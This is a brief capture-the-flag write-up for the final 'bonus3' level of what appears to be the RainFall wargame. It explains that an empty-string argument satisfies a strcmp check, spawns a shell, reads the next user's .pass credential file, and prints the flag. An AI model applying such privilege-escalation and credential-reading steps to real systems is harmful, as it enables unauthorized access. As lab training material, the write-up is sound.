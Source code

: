 the programme will execute the command `execl("/bin/sh", "sh", 0);` if the condition are completed 
we need to compare ptr and argv[1] 
`  if ( !strcmp(ptr, argv[1]) )`
`ptr[atoi(argv[1])] = 0`
if we can set argv[1] at 0 and \0 we can complete our conditions

```
bonus3@RainFall:~$ ./bonus3 ""
$ whoami
end
$ cat /home/user/end/.pass
3321b6f81659f9a71c76616f606e4b50189cecfea611393d5d649f75e157353c
```

# we just finished rainfall \0/
```
bonus3@RainFall:~$ su end
Password: 
end@RainFall:~$ ls
end
end@RainFall:~$ cat end
Congratulations graduate!
```